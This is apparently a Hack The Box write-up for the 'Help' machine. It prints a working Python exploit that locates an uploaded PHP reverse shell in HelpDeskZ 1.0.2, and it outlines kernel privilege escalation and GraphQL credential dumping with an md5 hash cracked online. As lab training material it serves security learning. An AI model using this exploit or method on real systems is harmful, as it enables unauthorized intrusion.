 ```yaml
---
"title": "Hack The Box - Help"
"date": 2019-12-08
"tags": ["linux", "easy", "node", "kernel_exploit"]
"keywords": ["linux", "easy", "node", "kernel_exploit"]
"author": "Ghostbyt3"
"description": "We are going to pwn Help from Hack The Box."
"featured_image": "/img/htb-help/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Writeup"
---
```



![Untitled](/img/htb-help/1.png)

We are going to pwn Help from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/170](https://www.hackthebox.eu/home/machines/profile/170)


Like always begin with our Nmap Scan.

## Nmap Scan Results:

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp


PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Lets begin from HTTP,It is an apache default webpage
![Untitled](/img/htb-help/2.png)

So bruteforce the directories
## Gobuster Results:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.121
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/15 00:08:21 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/index.html (Status: 200)
/javascript (Status: 301)
/server-status (Status: 403)
/support (Status: 301)
===============================================================
2019/12/15 00:10:45 Finished
===============================================================
```

Found ``HelpDeskZ`` on ``/support``
![Untitled](/img/htb-help/3.png)
It has a login page too.

A quick check for any exploits available I found this

>https://www.exploit-db.com/exploits/40300 

From the exploit I came to know we need to submit a ticket
![Untitled](/img/htb-help/4.png)

I gave some random and uploaded my reverse shell as ``root.php``
![Untitled](/img/htb-help/5.png)

When I click uploaded it says[br/](br/)
![Untitled](/img/htb-help/6.png)

Then I checked the source code of the ``HelpDeskz`` on github

>https://github.com/evolutionscript/HelpDeskZ-1.0

I came to know when we uploaded it shows ``Not allowed`` but its not deleting ,The file is still saved on the server.

I already found an exploit from ``exploitdb`` so I just edited some 


```
import hashlib
import time
import sys
import requests

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

currentTime = int(time.time())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+'/uploads/tickets/'+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)

print "Sorry, I did not find anything"
```

I changed the ``url`` , I found that from the github repo.

Now I executed the scirpt on my machine with listening on another terminal.
![Untitled](/img/htb-help/7.png)

I got an user ``help``

## Privilege Escalation:

While checking the kernel it looks old one 
![Untitled](/img/htb-help/8.png)

> https://www.exploit-db.com/exploits/44298 

Got an exploit for that version

Uploaded the script to the machine 

![Untitled](/img/htb-help/9.png)[br/](br/)
Got Root

## Enumerating ``Node.js``:

It looks like ``node.js`` running on port ``3000``[br/](br/)
![Untitled](/img/htb-help/10.png)

It give us some message that we need to find the credentials with given query.

Mostly ``node.js`` run as ``express graphql``

I test it with adding ``graphql?`` [br/](br/)
![Untitled](/img/htb-help/11.png)

It shows some message so I tested with changing it to ``test`` and it gives me some error so I confirmed there is ``graphql``
![Untitled](/img/htb-help/12.png)

We know the message told us to find in given ``query`` and I googled about it and found this 
![Untitled](/img/htb-help/13.png)

So I added username and password [br/](br/)
![Untitled](/img/htb-help/14.png)[br/](br/)
Got some credentials

It looks like md5sum so I cracked with online crackstation
![Untitled](/img/htb-help/15.png)

It works for ``HelpDeskz`` login
![Untitled](/img/htb-help/16.png)